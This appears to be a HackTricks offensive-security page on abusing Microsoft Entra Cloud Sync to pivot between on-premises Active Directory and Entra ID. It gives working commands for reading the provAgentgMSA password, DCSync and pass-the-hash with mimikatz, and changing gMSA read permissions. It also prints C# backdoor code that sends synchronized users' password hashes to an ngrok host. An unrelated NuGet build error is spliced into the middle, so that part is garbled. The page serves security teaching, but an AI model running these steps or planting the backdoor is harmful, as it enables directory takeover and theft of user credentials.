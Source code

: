 # Az - Cloud Sync

{{#include ../../../banners/hacktricks-training.md}}


## Basic Information

**Cloud Sync** is basically the new way of Azure to **synchronize the users from AD into Entra ID**.

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/cloud-sync/what-is-cloud-sync) Microsoft Entra Cloud Sync is a new offering from Microsoft designed to meet and accomplish your hybrid identity goals for synchronization of users, groups, and contacts to Microsoft Entra ID. It accomplishes this by using the Microsoft Entra cloud provisioning agent instead of the Microsoft Entra Connect application. However, it can be used alongside Microsoft Entra Connect Sync.

### Principals Generated

In order for this to work some principals are created in both Entra ID and the On-Premise directry:

- In Entra ID the user `On-Premises Directory Synchronization Service Account` (`ADToAADSyncServiceAccount@carloshacktricks.onmicrosoft.com`) is created with the role **`Directory Synchronization Accounts`** (`d29b2b05-8046-44ba-8758-1e26182fcf32`). 

> [!WARNING]
> This role used to have a lot of privileged permissions and it could be used to [**escalate privileges even to global admin**](https://medium.com/tenable-techblog/stealthy-persistence-with-directory-synchronization-accounts-role-in-entra-id-63e56ce5871b). However, Microsoft decided to remove all the privileges of this role and assign it just a new one **`microsoft.directory/onPremisesSynchronization/standard/read`** which doesn't really allow to perform any privileged action (like modifying the password or atribbutes of a user or adding a new credential to a SP).

- In Entra ID also the group **`AAD DC Administrators`** is created without members or owners. This group is useful if [`Microsoft Entra Domain Services`](./az-domain-services.md) is used.

- In the AD, either the Service Account **`provAgentgMSA`** is created with a SamAcountName like **`pGMSA_<id>$@domain.com`** (`Get-ADServiceAccount -Filter * | Select Name,SamAccountName`), or a custom one with [**these permissions is needed**](https://learn.microsoft.com/en-us/entra/identity/hybrid/cloud-sync/how-to-prerequisites?tabs=public-cloud#custom-gmsa-account). Usually the default one is created.

> [!WARNING]
> Among other permissions the Service Account **`provAgentgMSA`** has DCSync permissions, allowing **anyone that compromises it to compromise the whole directory**. For more information about [DCSync check this](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/dcsync.html).

> [!NOTE]
> By default users of known privileged groups like Domain Admins with the attribute **`adminCount` to 1 are not synchronized** with Entra ID for security reasons. However, other users that are part of privileged groups without this attribute or that are assigned high privileges directly **can be synchronized**.

## Password Sychronization

The section is very similar to the one from:

{{#ref}}
az-connect-sync.md
{{#endref}}

- **Password hash synchronization** can be enabled so users will be able to **login into Entra ID using their passwords from AD**. Moreover, whenever a password is modified in AD, it'll be updated in Entra ID.
- **Password writeback** can also be enabled, allowing users to modify their password in Entra ID automatically synchronizing their password in the on-premise domain. But according to the [current docs](https://learn.microsoft.com/en-us/entra/identity/authentication/tutorial-enable-sspr-writeback#configure-password-writeback), for this is needed to use the Connect Agent, so take a look to the [Az Connect Sync section](./az-connect-sync.md) for more information.
- **Groups writeback**: This feature allows group memberships from Entra ID to be synchronized back to the on-premises AD. This means that if a user is added to a group in Entra ID, they will also be added to the corresponding group in AD.


## Pivoting

### AD --> Entra ID

- If the AD users are being synced from the AD to Entra ID, pivoting from AD to Entra ID is straightforward, just **compromise some user's password or change some user's password or create a new user and wait until it's synced into the Entra ID directory (usually only a few mins)**.

So you could for example
- Compromise the **`provAgentgMSA`** account, perform a DCSync attack, crack the password of some user and then use it to login into Entra ID.
- Just create a new user in the AD, wait until it's synced into Entra ID and then use it to login into Entra ID.
- Modify the password of some user in the AD, wait until it's synced into Entra ID and then use it to login into Entra ID.

To compromise the **`provAgentgMSA`** credentials:

```powershell
# Enumerate provAgentgMSA account
Get-ADServiceAccount -Filter * -Server domain.local
# Find who can read the password of the gMSA (usually only the DC computer account)
Get-ADServiceAccount -Identity pGMSA_<id>$ -Properties * -Server domain.local | selectPrincipalsAllowedToRetrieveManagedPassword

# You need to perform a PTH with the hash of the DC computer account next. For example using mimikatz:
lsadump::dcsync /domain:domain.local /user:<dc-name>$
sekurlsa::pth /user:<dc-name>$ /domain:domain.local /ntlm:<hash> /run:"cmd.exe"

# Or you can change who can read the password of the gMSA account to all domain admins for example:
Set-ADServiceAccount -Identity 'pGMSA_<id>$' -PrincipalsAllowedToRetrieveManagedPassword 'Domain Admins'

# Read the password of the gMSA
$Passwordblob = (Get-ADServiceAccount -Identity pGMSA_<id>$ -Properties msDS-ManagedPassword -server domain.local).'msDS-ManagedPassword'

#Install-Module -Name DSInternals
#Import-Module DSInternals
$decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordblob
ConvertTo-NTHash -Password $decodedpwd.SecureCurrentPassword
```

Now you could use the hash of the gMSA to perform a Pass-the-Hash attack against Entra ID using the `provAgentgMSA` account and maintain persistence being able to perform DCSync attacks against the AD.

For more information about how to compromise an Active Directory check:

{{#ref}}
https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/index.html
{{#endref}}

> [!NOTE]
> Note that There isn't any way to give Azure or EntraID roles to synced users based on its attributes for example in the Cloud Sync configurations. However, in order to automatically grant permissions to synced users some **Entra ID groups from AD** might be given permissions so the synced users inside those groups also receive them or **dynamic groups might be used**, so always check for dynamic rules and potential ways to abuse them:

{{#ref}}
../az-privilege-escalation/az-entraid-privesc/dynamic-groups.md
{{#endref}}

Regarding persistence [this blog post](https://tierzerosecurity.co.nz/2024/05/21/ms-entra-connect-sync-mothods.html) suggest that it's possible to use [**dnSpy**](https://github.com/dnSpy/dnSpy) to backdoor the dll **`Microsoft.Online.Passwordsynchronisation.dll`** located in **`C:\Program Files\Microsoft Azure AD Sync\Bin`** that is used by the Cloud Sync agent to perform the password synchronization making it exfiltrate the password hashes of the users being synchronized to a remote server. The hashes are generated inside the class **`PasswordHashGenerator`** and the blog post suggest adding some code so the class looks like (note the `use System.Net` and the `WebClient` usage to exfiltrate the password hashes):

```csharp
using System;
using System.Net;
using Microsoft.Online.PasswordSynchronization.DirectoryReplicationServices;

namespace Microsoft.Online.PasswordSynchronization
{
	// Token: 0x0200003E RID: 62
	public class PasswordHashGenerator : ClearPasswordHashGenerator
	{
		// Token: 0x06000190 RID: 400 RVA: 0x00006DFC File Offset: 0x00004FFC
		public override PasswordHashData CreatePasswordHash(ChangeObject changeObject)
		{
			PasswordHashData passwordHashData = base.CreatePasswordHash(changeObject);
			try
			{
				using (WebClient webClient = new WebClient())
				{
					webClient.DownloadString("https://786a39c7cb68.ngrok-free.app?u=" + changeObject.DistinguishedName + "&p=" + passwordHashData.Hash);
				}
			}
			catch (Exception)
			{
			}
			return new PasswordHashData
			{
				Hash = OrgIdHashGenerator.Generate(passwordHashData.Hash),
				RawHash = passwordHashData.RawHash
			};
		}
	}
}
```


NuGet Package restore failed for project AzTokenFinder: Unable to find version '4.3.2' of package 'System.Security.Cryptography.X509Certificates'.
  C:\Program Files (x86)\Microsoft SDKs\NuGetPackages\: Package 'System.Security.Cryptography.X509Certificates.4.3.2' is not found on source 'C:\Program Files (x86)\Microsoft SDKs\NuGetPackages\'.
. Please see Error List window for detailed warnings and errors.



### Entra ID --> AD

- If **Password Writeback** is enabled, you could modify the password of some users from Entra ID and if you have access to the AD network, connect using them. For more info check the [Az Connect Sync section](./az-connect-sync.md) section for more information as the password writeback is configured using that agent.

- At this point in time Cloud Sync also allows **"Microsoft Entra ID to AD"**, but after too much time I found that it CANNOT synchronize EntraID users to AD and that it can only synchronize users from EntraID that were synchronized with the password hash and come from a domain that belong to the same domain forest as the domain we are synchronizing to as you can read in [https://learn.microsoft.com/en-us/entra/identity/hybrid/group-writeback-cloud-sync#supported-groups-and-scale-limits](https://learn.microsoft.com/en-us/entra/identity/hybrid/group-writeback-cloud-sync#supported-groups-and-scale-limits):

> - These groups can only contain on-premises synchronized users and / or additional cloud created security groups.
> - The on-premises user accounts that are synchronized and are members of this cloud created security group, can be from the same domain or cross-domain, but they all must be from the same forest.

So the attack surface (and usefulness) of this service is greatly reduced as an attacker would need to compromise the initial AD from where the users are being synchronized in order to compromise a user in the other domain (and both must be in the same forest apparently).


### Enumeration

```bash
# Check for the gMSA SA
Get-ADServiceAccount -Filter "ObjectClass -like 'msDS-GroupManagedServiceAccount'"

# Get all the configured cloud sync agents (usually one per on-premise domain)
## In the machine name of each you can infer the name of the domain
az rest \
  --method GET \
  --uri "https://graph.microsoft.com/beta/onPremisesPublishingProfiles('provisioning')/agents/?\$expand=agentGroups" \
  --headers "Content-Type=application/json"
```



{{#include ../../../banners/hacktricks-training.md}}
